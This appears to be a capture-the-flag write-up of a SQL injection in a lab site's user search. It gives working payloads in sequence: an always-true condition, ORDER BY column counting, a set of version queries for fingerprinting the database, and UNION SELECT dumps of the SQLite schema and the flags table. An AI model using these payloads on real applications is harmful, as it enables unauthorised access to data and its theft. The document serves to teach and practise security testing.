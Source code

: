 ![](../images/inbox1.png)
after visiting the website and clicking in search for user, we get one page which presente us 
a search input in order to search user by enter the name.
directly, i thought about **xss** or **sqli**. but after make some test, i  understand that the search functionality is vulnerable to sqli **SQL INJECTION **
how i know that?: i make some test.  
i order to test for sqli, we can input some char like (", ', `, (' , (", )  which will trigger an error if they are sqli vuln . see below
![](../images/inbox5.png)
i input **'** and i get error.
so let get users from the database:
**payload**: 'or '1' ='1' --
we get all the user;
![](../images/inbox2.png)
<br/>
we can fuger out that  the **union base sqli** is evalable
so let get the number of column.
payload: **'or '1' ='1'  ORDER BY  2--**
output: good we get all the user.
![](../images/inbox3.png)
<br/>
payload: **'or '1' ='1'  ORDER BY  3--**
output: good we get an error.
![](../images/inbox4.png)
conclusion: **the number of column is 2**

#now we need to know the type of DBMS the backend use. let make some test. 
in order to do that, i try to get dbms version by using some payload.
# from portswigger
 Oracle 	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft 	SELECT @@version
PostgreSQL 	SELECT version()
MySQL 	SELECT @@version 

after try these payload and get alwayse an error, i try to test for *SQLITE* and that work
<br/>
payload:   **'or '1' ='1'  UNION SELECT null, sql FROM sqlite_schema--**
output: ** 
Results

- CREATE TABLE flags ( flag varchar(255) )

- CREATE TABLE users ( id int, email varchar(255) )

1 - alice@fakeinbox.com

2 - bob@fakeinbox.com

3 - charlie@fakeinbox.com**
so we see that the database have to table, users, and flags. the flags table is very important for use. 😅
so let dump all value from flags table:
payload: **'or '1' ='1'  UNION SELECT null, flag FROM flags--**
output: see picture below
![](../images/inbox6.png)
we get the fist part of the flag:
#  flag{off_to_a_good_start_
